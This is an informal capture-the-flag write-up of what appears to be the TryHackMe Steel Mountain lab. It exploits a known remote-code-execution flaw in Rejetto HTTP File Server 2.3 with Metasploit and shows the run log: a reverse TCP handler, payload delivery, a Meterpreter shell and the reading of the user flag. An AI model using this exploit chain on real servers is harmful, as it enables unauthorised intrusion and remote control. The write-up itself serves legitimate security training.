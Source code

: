 Obviously there would be a website on another port! who didn't see it coming?

First the decoy website got us the first answer...

```
<a href="index.html"><img src="/img/logo.png" style="width:500px;height:300px;"/></a>
<h3>Employee of the month</h3>
<img src="/img/BillHarper.png" style="width:200px;height:200px;"/>
```
Lol how this guy got employee of the month?

Then the real stuff...

`rejetto http file server 2.3` looking so vulnerable right now...

Google for the CVE details. Big hint: It's a RCE!

(If you are playing on THM too be careful submitting the answer, remove CVE and just submit the number)

Steel mountain looks more like rubble mountain now

## Exploitation

ok mostly two methods are available here. The `metasploit way` and the `I-download-scripts-manually way` but after doing both I think they are very similar so I won't separate and just go with metasploit (this is a guided room anyway)

setup options acordingly (Do not forget to change the remote TARGET PORT!)

```
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.8.4.19:4444 
[*] Using URL: http://10.8.4.19:8080/jaISnbG8B
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /jaISnbG8B
[*] Sending stage (175686 bytes) to 10.10.165.223
[!] Tried to delete %TEMP%\WKZRtk.vbs, unknown result
[*] Meterpreter session 1 opened (10.8.4.19:4444 -> 10.10.165.223:49234) at 2023-05-07 20:58:51 +0100
[*] Server stopped.

...
meterpreter > dir
Listing: c:\Users\bill\Desktop
==============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2019-09-27 12:07:07 +0100  desktop.ini
100666/rw-rw-rw-  70    fil   2019-09-27 13:42:38 +0100  user.txt

meterpreter > cat user.txt
��t0t4lly-r34l-st33l-fl4g-n07-f4k3

```
If you see unicode characters in the flag do not worry and just submit it
